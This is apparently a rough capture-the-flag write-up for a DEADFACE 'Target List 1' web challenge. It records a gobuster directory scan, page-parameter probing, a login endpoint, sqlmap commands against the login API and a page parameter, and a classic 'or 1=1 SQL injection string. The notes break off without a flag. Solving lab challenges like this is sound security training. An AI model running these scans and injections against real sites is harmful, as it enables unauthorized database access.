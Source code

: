 # Target List 1

Deadface is running a server where they have a list of targets they are planning on using in an upcoming attack. 
See if you can find any targets they are trying to hide.

http://targetlist.deadface.io:3001

Submit the flag as flag{flag-text}

## Attempt

http://targetlist.deadface.io:3001/pages


```sh
gobuster dir --url http://targetlist.deadface.io:3001 -w /usr/share/wordlists/dirb/common.txt
```

```sh
```
http://targetlist.deadface.io:3001/pages?page=6C  => FL
6C17

http://targetlist.deadface.io:3001/pages?page=6C17

login - http://targetlist.deadface.io:3001/api/login
{"username":"test","password":"test"}

```sh
sqlmap -u "http://targetlist.deadface.io:3001/api/login" --data "{\"username\":\"*\",\"password\":\"*\"}" --dbs --ignore-code=401


sqlmap -u "http://targetlist.deadface.io:3001/pages?page=*" --dbs
```

'or 1=1 %27or%201%3D1


%%
